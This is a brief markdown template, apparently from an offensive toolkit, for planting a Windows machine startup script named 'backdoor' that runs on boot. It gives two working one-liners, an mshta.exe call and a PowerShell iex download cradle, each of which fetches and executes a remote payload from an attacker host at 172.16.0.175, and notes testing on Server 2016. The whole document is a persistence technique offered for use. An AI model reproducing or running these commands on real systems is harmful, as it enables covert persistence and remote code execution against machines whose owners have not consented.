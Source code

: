 # Startup Scripts
Create a startup script which executes on boot.

## File Path
`\Machine\Scripts\Startup\backdoor.bat`

## File Template
`mshta.exe http://172.16.0.175/a`

## File Path
`\Machine\Scripts\Startup\backdoor.ps1`

## File Template
`iex ((new-object net.webclient).downloadstring('http://172.16.0.175/a'))`

## Tested On
- Server 2016